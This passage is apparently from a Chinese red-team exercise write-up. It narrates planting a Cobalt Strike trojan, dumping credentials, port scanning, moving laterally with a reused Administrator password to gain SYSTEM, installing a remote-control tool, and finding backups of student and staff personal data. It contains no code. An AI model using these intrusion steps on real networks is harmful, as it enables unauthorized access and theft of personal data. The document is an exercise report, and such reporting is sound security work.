

此时我们先在获取权限的机器上面传一个由CobaltStrike生成的木马，运行后机器上线；先抓取密码；然后进行端口的扫描



此时发现开启目标端口的机器已经被扫描出来分别是192.168.12.6和192.168.12.7；此时右击目标机器选择横向移动密码选择我们刚抓取的密码；配好监听后即可成功横向移动（如若密码不对还得继续将目标机器对应的web权限拿下后抓取密码）



最终以192.168.12.16作为跳板机横向移动至192.168.12.6和192.168.12.7并获取system权限（三台机子的Administrator密码均相同）



### 协同管理平台内网主机存在敏感信息泄露（10W+）

#### gotohttp远控

此时继续使用老套路，先看杀软和是否开启rdp；发现没有杀软后直接上传gotohttp进行远控

##### 192.168.12.6机子存在敏感信息泄露

###### 学生信息



###### 2021年数据库备份（学生、教职工、合作企业等）



##### 192.168.12.7机子存在敏感信息泄露

###### 2020年数据库备份（学生、教职工、合作企业等）



###### 实验室、学生、用户信息泄露



## 总结和反思

这也算是自己第三次打内网了；相比与之前的手足无措，这次也略微从容了点；在没有域环境的内网下也是略容易上手一点

### 不足之处

1.  一直在192.168这个段中一直转圈圈无法实现虚拟机逃逸
2.  没有想到是否能通10或者172.16段也导致这个攻防分数可能没有全部拿满。
3.  在前期的内网凭证收集中没有仔细做出密码本进行密码喷洒，导致后续在横向移动时出现收集凭证过少，横移失败的情况。
4.  权限维持没有做好且对方应急速度过快，导致第二天起来机子就下线了。
